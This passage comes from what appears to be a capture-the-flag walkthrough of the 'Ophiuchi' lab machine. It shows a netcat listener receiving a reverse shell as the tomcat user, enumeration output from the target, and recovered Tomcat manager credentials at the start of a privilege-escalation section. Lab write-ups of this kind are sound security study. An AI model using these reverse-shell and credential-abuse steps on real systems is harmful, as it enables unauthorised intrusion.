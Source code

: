 **Exploit**:

Change command inside payload to Java reverse shell:

![image-20240130200322815](./Ophiuchi.assets/image-20240130200322815.png)

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 44690
bash: cannot set terminal process group (837): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$ uname -a
Linux ophiuchi 5.4.0-51-generic #56-Ubuntu SMP Mon Oct 5 14:28:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
tomcat@ophiuchi:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:e2:2f brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.227/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:e22f/64 scope global dynamic mngtmpaddr
       valid_lft 86398sec preferred_lft 14398sec
    inet6 fe80::250:56ff:feb9:e22f/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### tomcat -> admin

**Method1: Exploit Tomcat with manager-gui**

- enum tomcat user info: `admin:whythereisalimit` with `manager-gui & admin-gui`
